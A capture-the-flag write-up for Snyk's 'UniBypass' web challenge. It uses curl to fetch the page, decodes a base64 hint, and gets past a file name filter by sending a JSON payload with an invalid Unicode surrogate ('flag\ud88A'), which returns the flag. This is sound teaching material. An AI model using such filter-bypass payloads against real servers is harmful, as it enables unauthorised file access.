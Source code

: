 # UniBypass

If you wanna be my parser, you gotta get with my friend.

## Objective

Just from the title, we can assume, that there is a possible form to fill and bypass.
The languages are python and JavaScript, so I could assume that there will be an interesting script embedded, possibly, into the HTML.


## Resources

***Link***: https://ctf-101.snyk.io/challenges#UniBypass

***Server***: http://35.211.91.235:8000


## Solution

We can retrieve the HTML page with the curl command as follows below:

```
$curl -X GET 35.211.91.235:8000 >> HelloHax0R.html                      
```
***Results***

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3394  100  3394    0     0  13872      0 --:--:-- --:--:-- --:--:-- 13909


If we take a look into the file, we can find two interesting hints.
The first is about the Javascript code that handles the form text to fill.

This script indicates us, that there is a logic regarding the  fetching of the file.


```
<script>
        window.onload = function(){
            document.querySelector('#submit').addEventListener('click', submit);
        }

        async function submit(){
            const file_name = document.querySelector('#file_name').value;
            const response = await fetch('/', {
                method:'POST',
                headers:{
                    'content-type':'application/json'
                },
                body: JSON.stringify({file_name})
            })
            const responseData = await response.json();
            alert(responseData.response);
        }
    </script>

```

In this possible solution, I will go through curl command and not the form text.
This is the command that I will use to exploit the form, changing only the value of *file_name*.


```
$curl -X POST 35.211.91.235:8000/ -H "Content-Type: application/json" -d '{"file_name":"flag"}' 

```

***Response***

{"response":"computer says no"}                                                                                                        
Therefore, let's go for the second hint, a base64 encoded, commented string on the bottom of the page.


```
<!--T25jZSBJIHdhcyBwYXJzaW5nLXllYXJzLW9sZCBteSBtb21teSB0b2xkIG1lCm1ha2Ugc3VyZSB5b3Ugd29yayB3LyBweXRob24gb3IgeW91J2xsIGdldCBsb25lbHkK-->
</body>
</html>

```
If we decode the string with the command base64 showed below:


```
echo "T25jZSBJIHdhcyBwYXJzaW5nLXllYXJzLW9sZCBteSBtb21teSB0b2xkIG1lCm1ha2Ugc3VyZSB5b3Ugd29yayB3LyBweXRob24gb3IgeW91J2xsIGdldCBsb25lbHkK" >> suspiciosString 


base64 -d suspiciosString


```
***Results***

Once I was parsing-years-old my mommy told me
make sure you work w/ python or you'll get lonely

*From this phrase, let's pick up some keywords for reasearch*

A good reasearch could be *parsing w/ unicode bypass*

After a deep browse I found a good article, which describes some invalid character to use https://charbase.com/d86e-unicode-invalid-character.

I tried different values and I assume that the form could be exploited with "flag/ud88*", below an example:

```
curl -X POST "http://35.211.91.235:8000/" -H "Content-Type: application/json" -d '{ "file_name" : "flag\ud88A"}'
```
***Results***

{"response":"SNYK{FLAG}"}






